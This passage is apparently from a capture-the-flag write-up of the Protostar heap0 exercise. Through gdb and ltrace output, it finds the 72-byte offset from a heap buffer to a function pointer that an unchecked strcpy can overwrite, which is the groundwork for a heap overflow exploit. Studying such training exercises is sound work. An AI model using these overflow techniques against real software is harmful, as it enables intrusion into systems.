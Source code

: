 {% codeblock %}
user@protostar:~$ gdb -q /opt/protostar/bin/heap0 
Really redefine built-in command "frame"? (y or n) [answered Y; input not from terminal]
Really redefine built-in command "thread"? (y or n) [answered Y; input not from terminal]
Really redefine built-in command "start"? (y or n) [answered Y; input not from terminal]
Reading symbols from /opt/protostar/bin/heap0...done.

gdb> r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
data is at 0x804a008, fp is at 0x804a050

Program received signal SIGSEGV, Segmentation fault.
_______________________________________________________________________________
     eax:41346341 ebx:B7FD7FF4  ecx:00000000  edx:00000065     eflags:00210246
     esi:00000000 edi:00000000  esp:BFFFF70C  ebp:BFFFF738     eip:41346341
     cs:0073  ds:007B  es:007B  fs:0000  gs:0033  ss:007B    o d I t s Z a P c 
[007B:BFFFF70C]---------------------------------------------------------[stack]
BFFFF73C : 76 DC EA B7  02 00 00 00 - E4 F7 FF BF  F0 F7 FF BF v...............
BFFFF72C : 50 A0 04 08  20 85 04 08 - 00 00 00 00  B8 F7 FF BF P... ...........
BFFFF71C : 38 F7 FF BF  65 63 EC B7 - 40 10 FF B7  08 A0 04 08 8...ec..@.......
BFFFF70C : FF 84 04 08  08 A0 04 08 - 1D F9 FF BF  50 A0 04 08 ............P...
[007B:41346341]---------------------------------------------------------[ data]
41346341 : Error while running hook_stop:
Cannot access memory at address 0x41346341
0x41346341 in ?? ()
{% endcodeblock %}

`0x41346341` represents the offset 72, also `0x804a050 - 0x804a008 = 72`. So we
write 64B to `d->name` and after another 8B, there is the address of `fp`.

To verify our statement, we use ltrace and gdb:

{% codeblock %}
user@protostar:~$ ltrace /opt/protostar/bin/heap0 1337
__libc_start_main(0x804848c, 2, 0xbffff844, 0x8048520, 0x8048510 <unfinished ...>
malloc(64)                                                      = 0x0804a008
malloc(4)                                                       = 0x0804a050
printf("data is at %p, fp is at %p\n", 0x804a008, 0x804a050data is at 0x804a008, f
)                                                                  = 41
strcpy(0x0804a008, "1337")                                      = 0x0804a008
puts("level has not been passed"level has not been passed
)    = 26
+++ exited (status 26) +++
{% endcodeblock %}

{% codeblock %}
user@protostar:~$ gdb -q /opt/protostar/bin/heap0 
Really redefine built-in command "frame"? (y or n) [answered Y; input not from terminal]
Really redefine built-in command "thread"? (y or n) [answered Y; input not from terminal]
Really redefine built-in command "start"? (y or n) [answered Y; input not from terminal]
Reading symbols from /opt/protostar/bin/heap0...done.

gdb> b *0x80484ff
Breakpoint 1 at 0x80484ff: file heap0/heap0.c, line 40.
